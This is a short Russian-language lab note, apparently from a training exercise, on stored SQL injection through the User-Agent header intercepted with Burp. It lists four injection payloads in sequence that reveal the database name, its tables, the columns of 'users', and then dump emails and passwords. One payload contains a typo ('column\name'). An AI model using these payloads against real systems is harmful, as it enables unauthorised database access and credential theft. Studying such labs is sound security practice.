

# SQL Injection - Stored (User-Agent)

**(low)**


Грузить Payload’ы надо в user-agent перехваченный burp’ом подряд:
```bash
1', (select database() ))-- -
```
Название базы данных
```bash
1', (select group_concat(table_name)from information_schema.tables where table_schema=database()))-- -
```
Название таблицы
```bash
1', (select group_concat(column\name)from information_schema.columns where table_name='users'))-- -
```
Смотрим таблицу users
```bash
1', (select group_concat(email,password) from users))-- -
```
Смотрим пароли и логины из этой таблицы

